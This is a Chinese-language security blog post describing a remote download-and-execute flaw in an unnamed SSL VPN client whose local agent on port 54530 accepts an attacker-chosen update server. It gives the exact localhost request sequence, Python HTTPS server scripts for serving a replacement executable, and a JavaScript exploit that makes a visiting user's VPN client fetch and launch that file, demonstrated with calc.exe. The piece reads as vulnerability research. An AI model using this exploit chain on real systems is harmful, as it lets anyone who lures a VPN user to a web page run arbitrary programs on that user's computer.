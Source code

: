 ```yaml
---
layout: post
author: Vulkey_Chen
title: "某VPN客户端远程下载文件执行挖掘"
date: 2021-05-05
music-id: 1827600686
permalink: /archives/2021-05-05/1
description: "某VPN客户端远程下载文件执行挖掘"
---
```


# VPN客户端远程下载文件执行挖掘

## 前言

随便找一个地方下载VPN客户端下载安装。

安装完之后访问VPN的页面，发现VPN会自动下载组件更新：

![2021-03-23_11-56-10](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2021-05-05/2021-03-23_11-56-10.png)

这之间也许是因为存在着某些联系，可以深入的看一下。

## 对本地的访问

重现上述问题，通过`F12`发现当访问VPN的登陆页面会对本地`127.0.0.1`进行HTTP(s)请求：

![2021-03-23_11-58-09](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2021-05-05/2021-03-23_11-58-09.png)

这些请求均为GET请求并附带着一些参数，我们把它一一列下来：

![2021-03-23_12-00-49](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2021-05-05/2021-03-23_12-00-49.png)

本地来看一下这个`54530`端口对应的进程是什么：

![2021-03-23_12-03-28](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2021-05-05/2021-03-23_12-03-28.png)

发现这个端口是ECAgent.exe开启的，寻找到对应进程文件所在位置：

![2021-03-23_12-04-46](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2021-05-05/2021-03-23_12-04-46.png)

确认这是XXX SSLVPN的程序，那么就可以将两者联系到一起，访问VPN登录首页会触发对`127.0.0.1`的访问从而引起VPN进行组件更新。

## 更新地址可控

通过以上的分析我们猜测了整个大致流程，但我们设想一下如果我们可以控制本地的更新指向我们的服务器，然后将更新的组件内容替换成恶意程序，当程序启动的时候就启动了恶意程序，这样我们可以拿到安装VPN客户端的使用者PC权限。

再回到之前的本地链接列表，根据对英文的理解，参数op的值应该为其具体对应要执行的动作：

```
InitECAgent -> 初始化
GetEncryptKey -> 获取加密密钥
DoConfigure -> 配置
CheckReLogin -> 检查重新登录
CheckProxySetting -> 检查代理设置
UpdateControls -> 更新控制
DoQueryService -> 查询服务
```

第一个初始化的请求存在可控参数arg1：

```
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=vpn.hqu.edu.cn%20443&callback=EA_cb10000
```

参数`arg1=vpn.hqu.edu.cn%20443`，对应值也就是HOST+空格+端口的格式，看到这里基本上就会有一个思路，客户端更新控件是不是根据这个指定值向其发送请求更新的呢？我们可以只替换第一个初始化请求的arg1参数为`172.20.10.2 8000`，然后本地搭建一个HTTP服务：

```python
python -m SimpleHTTPServer
```

其他的请求原封不动，依次请求一遍那一份URL列表（图为请求示例）：

![2021-03-23_14-05-09](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2021-05-05/2021-03-23_14-05-09.png)

服务端成功收到请求，但是却出现了错误的提示：

![2021-03-23_14-03-15](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2021-05-05/2021-03-23_14-03-15.png)

首先我们已经验证了自己的猜想，更新地址是自己可控的，客户端确实会向我们指定的服务端发送请求，但由于出现了错误我们不知道客户端访问了哪个文件，也不知道访问文件之后做了什么动作。

## 服务搭建

现在要做的就是搭建一个客户端可以正常访问的请求，通过这个错误大致可以知道，我搭建的服务端协议和客户端请求使用的协议不一致，本机抓个包发现客户端请求的是 HTTPS 协议，这就需要搭建一个 HTTPS 服务了。

如下脚本基于Python库建立一个 HTTPS 服务：

```python
# openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes

import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```

搭建起一个 HTTPS 环境后再次复现如上请求，服务端收到日志：

![2021-03-23_18-03-36](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2021-05-05/2021-03-23_18-03-36.png)

可以看见客户端会访问两个文件：

```
/com/WindowsModule.xml
/com/win/XXXUD.exe
```

先不管xml文件是怎么样的，可执行文件(exe)是需要重视的，但是这里通过提示可以看出客户端发出的请求是POST请求，但我们所写的Python脚本建立的HTTPS服务并不支持POST方法，我们需要重写一下Handler：

```python
import BaseHTTPServer
import SimpleHTTPServer
import cgi
import ssl

class ServerHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_POST(self):
        form = cgi.FieldStorage()
        SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

Handler = ServerHandler

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), Handler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```

最终如上脚本支持`POST`方法，当时用`POST`方法请求时即返回文件内容。

最后，拖一个`calc.exe`（计算器）到HTTPS网站根目录下的`/com/win/XXXUD.exe`。

依次请求（**经过多次复现发现，这三个请求才是重点的，其他的可以忽略**）：

```http
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=172.20.10.2 8000&callback=EA_cb10000

https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3408a894633162c62188f98e92a221967dccfa5aafbd79b576714b4d1c392a4ad4b220d698efcd939c3b1b37467023e9380ee3abf0e492ee2efc736de757b80e973fe4c7d8af1af211a3f7ff3433cd9de975c76583efe7251dd1c0656f4384832998630359b65beb131cd8d287712462fa1b9e9acbc96dcc678b84cd57178c1a&token=50065256e83ff1bb9e01757d0d22b669&callback=EA_cb10003

https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&callback=EA_cb10005
```

会发现客户端请求之后，将文件下载到本地并启动该程序，成功弹出计算器：

![2021-03-23_18-12-55](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2021-05-05/2021-03-23_18-12-55.png)

## Exploit实现

Exploit很简单，当用户打开某个页面时访问那三个本地请求即可，这里使用JavaScript的fetch去实现即可：

```javascript
<script>
	// 服务器IP和端口
	var ip = "172.20.10.2";
	var port = "8000";
	var poc_list = ["https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=" + ip + " " + port + "&Guid=&callback=EA_cb10000", "https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3616f5b2ad1fe9b62b3d34509daa11259782919108eb2bebe59d64c808c3a079c6f6ae36b6ff1d63cb8067d08a9db72b70d912bfdb8bdc6ca18140cfa0ffb9e88b85acebf4bf544f71ff0fc662b9b95a8e939928b847018c106e1a96686e1ec3274a89ae0b8f77fc3d53a5ce0f1eec9a0ce8a5e4e2c927331cd94a67d5360a3e&token=c4202416e283e60809d3b1e04e4bae6b&Guid=&callback=EA_cb10003", "https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&Guid=&callback=EA_cb10005"];
	for(var i=0; i<poc_list.length; i++){
		setTimeout(fetch(poc_list[i]),"2000");
		
	}
</script>
```

其次就是需要一个HTTPS服务端的Python脚本，并且在脚本根目录下的`/com/win/`目录下有一个`XXXUD.exe`文件。

![2021-03-23_18-17-02](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2021-05-05/2021-03-23_18-17-02.png)

